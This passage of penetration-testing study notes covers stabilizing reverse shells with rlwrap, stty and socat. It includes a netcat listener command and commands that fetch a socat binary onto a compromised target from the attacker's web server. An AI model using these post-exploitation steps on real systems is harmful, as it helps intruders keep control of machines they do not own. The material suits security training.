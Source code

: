 ![python](https://i.imgur.com/bQnFz1T.png)

If the shell dies, any input in your own terminal will not be visible (result of having disabled terminal echo). Type `reset` and enter to fix this.

**rlwrap**

rlwrap is a program gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell. However, some manual stabilization must still be utilized to use CTRL+C inside the shell. rlwrap is not installed by default on Kali and can be installed with: `sudo apt install rlwrap`.

To use rlwrap listener: `rlwrap nc -lvnp <PORT>`

* 'rlwrap' provides a much more fully featured shell. This technique is useful with Windows shells which are difficult to stabilize.
  * With Linux target, it is possible to completely stabilize with the same trick before: background the shell with CTRL+Z, then use `stty raw -echo; fg` to stabilize and re-enter the shell.

**Socat Stable**

The third easy way to stabilize a shell is initialize a netcat shell as a stepping stone to a full featured socat shell. This technique is limited to Linux targets, as Socat shells on Windows will be no more stable than a netcat shell.

1. First transfer a socat static compiled binary (a version of the program compiled to have no dependencies) to the target machine. A common way to achieve this would be use web server on the attacking machine inside the directory containing socat binary (`sudo python3 -m http.server 80`).
2. On the target machine, use the netcat shell to download the file with `wget <LOCAL-IP>/socat -O /tmp/socat` for Linux. On Windows machine CLI environment with Powershell: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`.

**Change Terminal tty Size**

Must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

1. Open another terminal and run `stty -a`. This will give a large stream of output.
2. In the reverse/bind shell, type `stty rows <number>` and `stty cols <number>`.
3. Input the numbers returned from running the command in own terminal. This will change the width and height of the terminal to allow programs such as text editors do display information to be accurate and correctly open.

### Socat

Like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. However, the two big catches are:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is rarely installed by default.

Both Socat and Netcat have .exe versions for use on Windows.

#### Socat Reverse Shells

Socat is a connector between two points similar to the portal gun from the Portal games.
